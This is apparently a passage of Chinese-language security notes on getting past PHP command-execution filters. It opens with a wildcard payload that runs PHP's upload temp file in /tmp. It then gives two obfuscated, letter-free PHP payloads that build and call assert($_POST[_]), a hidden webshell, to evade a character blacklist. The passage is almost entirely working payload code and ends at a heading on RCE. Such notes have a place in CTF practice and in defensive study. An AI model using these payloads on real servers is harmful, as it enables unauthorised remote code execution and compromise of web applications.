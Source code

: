 二：PHP页面生成临时文件phpxxxxxx，存储在/tmp目录下；

三：执行指令：./???/?????[@-[],读取文件，执行其中的指令

```
?cmd=?><?=`.+/???/????????[@-[]]`?>
```

![image-20240528184008629](PHP%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20240528183950627.png)

### ;~^`&|过滤

```php
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;
$___($_[_]); 
```

```php
<?=$_=[]?><?=$_=@"$_"?><?=$_=$_['!'=='@']?><?=$___=$_?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$____='_'?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$_=$$____?><?=
$___($_[_])?>
```

# 13.无参数读文件和RCE漏洞

